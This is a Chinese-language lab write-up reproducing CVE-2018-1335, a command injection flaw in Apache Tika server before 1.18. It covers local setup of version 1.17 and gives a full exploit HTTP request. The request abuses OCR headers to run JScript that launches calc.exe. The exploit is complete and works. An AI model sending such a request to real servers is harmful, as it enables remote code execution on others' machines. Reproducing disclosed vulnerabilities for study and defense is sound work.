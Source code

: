 # Apache Tika中的命令注入(CVE-2018-1335)漏洞复现

## 0x01 搭建漏洞环境

*影响版本*

Tika-server版本<1.18 


以`tika-server-1.17`来搭建环境
在官网下载:
https://archive.apache.org/dist/tika/tika-server-1.17.jar

下载后，启动命令为：
```
java -jar tika-server-1.17.jar
```
![](./img/1.jpg)

打开浏览器,输入地址`http://localhost:9998/`，看见以下网页，则环境搭建成功。

![](./img/2.jpg)

## 0x02 漏洞复现

PAYLOAD:
```
PUT /meta HTTP/1.1
Host: localhost:9998
Connection: close
User-Agent: python-requests/2.19.1
X-Tika-OCRTesseractPath: "cscript"
Content-type: image/jp2
Expect: 100-continue
X-Tika-OCRLanguage: //E:Jscript
Content-Length: 99

var oShell = WScript.CreateObject("WScript.Shell");
	var oExec = oShell.Exec('cmd /c calc.exe');

```

利用burp发包，成功。

![](./img/3.gif)

复现成功


## 参考链接

- https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2018-1335
- https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/